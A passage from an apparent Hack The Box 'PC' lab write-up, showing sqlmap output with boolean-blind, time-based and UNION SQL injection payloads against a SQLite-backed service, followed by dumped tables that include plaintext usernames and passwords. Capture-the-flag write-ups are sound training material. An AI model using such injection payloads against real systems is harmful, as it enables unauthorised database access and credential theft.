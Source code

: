 ```
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibTQ3NyIsImV4cCI6MTY4NjYyNzUyOX0.wVgbdMKg8T4CsE8qAMqSFnOUIy0K9rwg0sPjSO2LT7g"}],"data":[{"id":"-1425 OR 9629=9629"}]}

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibTQ3NyIsImV4cCI6MTY4NjYyNzUyOX0.wVgbdMKg8T4CsE8qAMqSFnOUIy0K9rwg0sPjSO2LT7g"}],"data":[{"id":"488 OR 4805=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))"}]}

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibTQ3NyIsImV4cCI6MTY4NjYyNzUyOX0.wVgbdMKg8T4CsE8qAMqSFnOUIy0K9rwg0sPjSO2LT7g"}],"data":[{"id":"488 UNION ALL SELECT CHAR(113,118,106,118,113)||CHAR(102,103,88,105,80,83,65,89,68,87,107,70,78,107,89,81,74,118,78,111,105,117,78,97,106,97,84,73,84,113,69,106,111,116,85,74,112,111,70,103)||CHAR(113,120,118,113,113)-- ashJ"}]}
---
[10:46:12] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[10:46:12] [INFO] fetching tables for database: 'SQLite_masterdb'
[10:46:12] [INFO] fetching columns for table 'messages' 
[10:46:12] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

[10:46:12] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/matt/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/messages.csv'
[10:46:12] [INFO] fetching columns for table 'accounts' 
[10:46:12] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+----------+------------------------+
| username | password               |
+----------+------------------------+
| admin    | admin                  |
| sau      | HereIsYourPassWord1431 |
+----------+------------------------+

[10:46:12] [INFO] table 'SQLite_masterdb.accounts' dumped to CSV file '/home/matt/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/accounts.csv'
[10:46:12] [INFO] fetched data logged to text files under '/home/matt/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 10:46:12 /2023-06-13/

```
Running the same command with the '--dump' flag retrieves the tables from the database. You can see we dumped 2 tables: messages and accounts which contains usernames and clear-text passwords.  
&nbsp;  


[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB PC Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 16/06/2023 - 08:19 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)